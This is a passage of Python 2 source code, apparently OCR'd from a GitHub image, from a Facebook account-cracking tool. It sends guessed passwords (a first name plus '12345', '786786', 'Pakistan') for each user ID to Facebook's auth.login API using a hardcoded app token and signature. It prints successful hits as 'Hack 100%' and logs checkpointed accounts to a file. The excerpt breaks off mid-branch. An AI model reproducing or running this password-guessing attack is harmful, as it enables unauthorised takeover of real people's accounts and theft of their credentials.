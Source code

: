 							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '12345'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = '786786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;94mCheckpoint\x1b[1;97m-\x1b[1;91m▬\x1b[1;97m-' + user + '-\x1b[1;91m▬\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'Pakistan'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;92m▬\x1b[1;97m-' + user + '-\x1b[1;92m▬\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]: